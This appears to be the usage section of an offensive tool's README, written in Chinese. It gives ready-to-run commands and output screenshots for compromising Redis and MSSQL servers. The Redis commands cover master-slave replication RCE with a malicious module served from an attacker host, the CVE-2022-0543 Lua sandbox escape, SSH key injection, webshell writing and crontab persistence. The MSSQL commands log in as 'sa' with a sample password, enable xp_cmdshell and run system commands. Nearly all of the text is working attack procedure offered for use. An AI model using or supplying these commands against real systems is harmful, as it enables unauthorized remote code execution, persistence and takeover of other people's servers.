 ## Redis
### 连接redis获取sql shell
```shell
go run .\main.go -redis -rhost 192.168.111.211 -rport 6379 -cli
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673162384827-437c4b52-f054-4dac-82fb-2ebd6c5e1db6.png#averageHue=%232d2c2c&clientId=u67188ca8-ad41-4&from=paste&height=227&id=u6a32632c&name=image.png&originHeight=340&originWidth=1748&originalType=binary&ratio=1&rotation=0&showTitle=false&size=61401&status=done&style=none&taskId=u9ce98198-9c8b-40f0-b330-f72a23aee6a&title=&width=1165.3333333333333)
### 主从复制RCE
```shell
//Linux
go run .\main.go -redis  -rhost 192.168.111.211  -lhost 192.168.1.110 -exec -so exp.so
go run .\main.go -redis  -rhost 192.168.111.211  -lhost 192.168.1.110 -exec -console -so exp.so
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673168621037-f35fbab0-d512-4091-84d0-69a8bead823c.png#averageHue=%232c2c2c&clientId=u67188ca8-ad41-4&from=paste&height=593&id=uf2330416&name=image.png&originHeight=890&originWidth=1767&originalType=binary&ratio=1&rotation=0&showTitle=false&size=151041&status=done&style=none&taskId=u8e73d49b-85ea-4c1b-994b-c094dcbd9ea&title=&width=1178)
### Lua沙盒绕过命令执行(CVE-2022-0543)
```shell
go run .\main.go -redis -rhost 192.168.111.211 -rport 6379 -lua -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673169147330-646d29f4-b9f5-43f7-bec9-f455d204ee99.png#averageHue=%232c2c2c&clientId=u67188ca8-ad41-4&from=paste&height=263&id=ubf42c5a7&name=image.png&originHeight=395&originWidth=1540&originalType=binary&ratio=1&rotation=0&showTitle=false&size=56558&status=done&style=none&taskId=u3c8fa367-3e93-498a-9223-fc0b4576281&title=&width=1026.6666666666667)
### 写公钥
将ssh.txt文件中公钥替换成自己生成的
```shell
go run .\main.go -redis -rhost 192.168.111.211 -rport 6379 -sshkey
```
### 写Webshell
```shell
go run .\main.go -redis -rhost 192.168.111.211 -rport 6379 -shell
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673172455308-4d7d1f2b-25ec-4ff2-9002-37a951006a64.png#averageHue=%232c2c2c&clientId=u4db9b2af-90c3-4&from=paste&height=637&id=ue060e558&name=image.png&originHeight=956&originWidth=1678&originalType=binary&ratio=1&rotation=0&showTitle=false&size=151014&status=done&style=none&taskId=u9d4fbe22-3293-4f4c-9d0c-3c53c03d080&title=&width=1118.6666666666667)
### 定时任务
需要修改crontab.txt内容
```shell
go run .\main.go -redis -rhost 192.168.111.211 -rport 6379 -crontab
```
## MSSQL
### 连接数据库并获取一个sql shell
```shell
go run .\main.go -mssql -rhost 192.168.111.223 -rport 1433 -ruser sa -pwd "1qaz@WSX"  -cli
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1675177766048-6b3b73c8-78d4-4e09-b9ff-de880da2d1d4.png#averageHue=%232d2d2c&clientId=uf3dc0733-6a37-4&from=paste&height=357&id=u24708bb9&name=image.png&originHeight=536&originWidth=1769&originalType=binary&ratio=1&rotation=0&showTitle=false&size=112663&status=done&style=none&taskId=u50b40e50-727f-42ee-91e5-c0979786901&title=&width=1179.3333333333333)
### 开启xp_cmdshell
```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -isxp
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673028201084-80b53f0e-8e02-4263-8f06-f24776514701.png#averageHue=%232e2d2c&clientId=u08da9ee0-8226-4&from=paste&height=307&id=udc10c4d2&name=image.png&originHeight=461&originWidth=1819&originalType=binary&ratio=1&rotation=0&showTitle=false&size=106608&status=done&style=none&taskId=u8199fc07-72ea-4c05-b76f-92c07ea77f2&title=&width=1212.6666666666667)
### xp_cmdshell获取一个执行系统命令的shell
```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX" -isxp -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673028316198-6dc5a19d-4c93-4d62-aef4-80f027530067.png#averageHue=%232d2d2c&clientId=u08da9ee0-8226-4&from=paste&height=276&id=ucb4936fc&name=image.png&originHeight=414&originWidth=1591&originalType=binary&ratio=1&rotation=0&showTitle=false&size=89465&status=done&style=none&taskId=ud51186ff-df6b-4166-9347-f5c0c4d2e1c&title=&width=1060.6666666666667)
### xp_cmdshell执行单条系统命令
```shell
go run .\main.go -mssql -rhost 192.168.111.136 -rport 1433 -pwd "1qaz@WSX"  -isxp -docmd -cmd "whoami"
```